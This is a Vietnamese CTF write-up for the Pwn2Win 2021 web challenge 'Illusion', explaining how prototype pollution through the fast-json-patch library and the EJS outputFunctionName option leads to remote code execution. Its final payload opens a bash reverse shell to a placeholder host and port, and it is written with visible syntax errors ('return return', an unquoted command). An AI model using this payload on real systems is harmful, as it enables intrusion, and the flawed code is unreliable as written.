 ```yaml
---
layout: post
title: "[WRITEUP PWN2WINCTF 2021]: WEB"
categories: CTF
toc: true
---
```

Đây là writeup

## Challenge Illusion:
- Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)

### Overview:
- Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.

### Analysis Source:
- Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác. 
![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
Ở đoạn code này chương trình nhận input của người dùng thông qua method post sau đó kiểm tra tham số người dùng truyền vào nếu như `service=='status'` thì return về 400, nếu không thì sẽ push vào array path (option ở đây là repace nên sẽ thay thế value của tham số đó luôn chứ không phải thêm vào). Cuối cùng nó sẽ thay đổi các giá trị trong mảng của services (được khai báo ban đầu) bằng các giá trị ở trong mảng pacth và return về sercives đó.
- Ở endpoint `/` thì thấy được nó lấy mảng servirces để render qua file `index.js` mà không hề được lọc đầu vào cùa người dùng.
- File `index.ejs` thì sẽ in ra các value của services.
=> chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.

### Solution:
- Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
link: https://github.com/418sec/huntr/pull/768
- Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.

### Payload:
```js
constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
```
